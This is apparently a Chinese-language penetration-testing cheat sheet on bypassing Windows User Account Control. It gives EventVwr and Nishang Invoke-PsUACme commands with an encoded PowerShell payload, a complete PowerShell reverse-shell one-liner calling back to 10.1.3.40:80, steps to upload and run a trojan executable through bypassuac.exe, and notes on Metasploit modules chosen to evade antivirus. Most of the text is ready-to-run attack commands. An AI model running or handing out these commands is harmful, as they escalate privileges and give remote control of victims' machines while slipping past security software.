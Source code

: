 ```bat

#-enc encodedCommand
Invoke-EventVwrBypass -Command "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -enc IgBJAHMAIABFAGwAZQB2AGEAdABlAGQAOgAgACQAKAAoAFsAUwBlAGM..."
```

### Nishang-PsUACme
参考：https://decoder.cloud/2017/02/03/bypassing-uac-from-a-remote-powershell-and-escalting-to-system/

> 支持windows 2012, no win10
>

```powershell
#-powershell to spawn a cmd process with high integrity
powershell.exe Start-Process cmd.exe -Verb runAs

#使用sysprep方法并执行默认的payload
Import-Module .\Invoke-PsUACme.ps1;Invoke-PsUACme -verbose

#使用oobe方法并执行默认的payload
Import-Module .\Invoke-PsUACme.ps1;Invoke-PsUACme -method oobe -verbose

#-Invoke-PsUACme， with oobe and reverse.ps1
wget https://github.com/samratashok/nishang/blob/master/Escalation/Invoke-PsUACme.ps1

#-reverse.ps1,修改ip、端口
$client = New-Object System.Net.Sockets.TCPClient('10.1.3.40',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

#-upload ps1 file
PS C:\temp> . .\Invoke-PsUACme.ps1
PS C:\temp> Invoke-PsUACme -method oobe -Payload "powershell -ExecutionPolicy Bypass -noexit -file c:\temp\reverse.ps1"
```

### kali bypassuac.exe

```bat
#-locate，根据arch选取合适的exe
locate bypassuac

#-上传并执行木马exe
bypassuac-x64.exe /c C:\BypassUAC\reverse_4444.exe
```

### MSF bypass
> bypassuac: 运行时会因为在目标机上创建多个文件而被杀毒软件识别，因此通过该模块提权成功率很低
> bypassuac_injection: 运行在内存的反射DLL中，不会接触目标机器的硬盘，降低了被杀毒软件检测出来的概率
> msf bypassuac前提：
> + 当前用户在administators groups
> + UAC设置为默认，“仅在程序试图更改我的计算机时通知我”
